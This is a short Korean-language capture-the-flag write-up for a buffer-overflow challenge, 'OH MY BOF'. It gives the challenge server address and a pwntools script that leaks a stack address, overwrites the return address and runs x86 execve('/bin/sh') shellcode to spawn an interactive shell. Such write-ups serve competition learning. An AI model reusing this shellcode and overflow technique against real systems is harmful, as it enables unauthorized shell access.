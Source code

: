 ## No. 9 Pwnable OH MY BOF[100]

**점수:** 100

**분야:** Pwnable

**제목:** OH MY BOF

**Description:**

> I made a simple BOF.
> 
> nc 223.194.105.182 41001
> Download : https://goo.gl/oxc1fS

쉘코드를 실행하기 위해 먼저 버퍼의 주소를 leak 시킨다. 

그리고 디버깅을 통해 스택의 적절한 값과 버퍼와의 거리를 알아낼 수 있었다.
 
```python
from pwn import *
 
r = remote('223.194.105.182', 41001)
 
r.recvn(24)
 
payload = '\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
payload += p32(0x80483e3)
r.send(payload)
leak = r.recvn(24)
esp = u32(leak[8:12]) - 0x98
log.info('esp is {}'.format(hex(esp)))
 
payload = 'a' * 24
payload += p32(esp + 4)
payload += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
r.send(payload)
 
r.interactive()
```
